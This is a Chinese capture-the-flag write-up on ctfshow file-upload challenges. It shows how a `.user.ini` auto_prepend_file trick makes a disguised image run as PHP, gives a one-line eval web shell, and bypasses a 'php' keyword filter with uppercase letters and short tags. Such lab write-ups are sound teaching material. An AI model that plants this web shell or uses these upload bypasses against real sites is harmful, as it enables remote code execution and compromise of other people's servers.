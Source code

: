 发现很容易上传如`php5,phtml`等类型文件,但是不解析.通过插件识别为nginx服务器,尝试上传`.user.ini`,发现上传成功
 ![在这里插入图片描述](ctfshow-文件上传/20201128200757302.png)

文件内容:

```php
auto_prepend_file = 1.php
1
```

然后上传一张图片马,`1.php`
 内容:

```php
phpinfo();
@eval($_POST['hacker']);
12
```

然后访问 /upload/index.php

## 154

先上传`.user.ini`,再上传图片马,再访问/upload/index.php

在前面一题的基础上增加了内容过滤,过滤了`php` , 可以用大小写来绕过

![image-20210207165109830](ctfshow-文件上传/image-20210207165109830.png)

尝试使用短标签绕过
 对于php的标签其他写法，我们这里多说几种
 **1、**

```php
<? echo '123';?>
```

前提是开启配置参数short_open_tags=on
 **2、**

```php
<?=(表达式)?>  等价于 <?php echo (表达式)?>
```
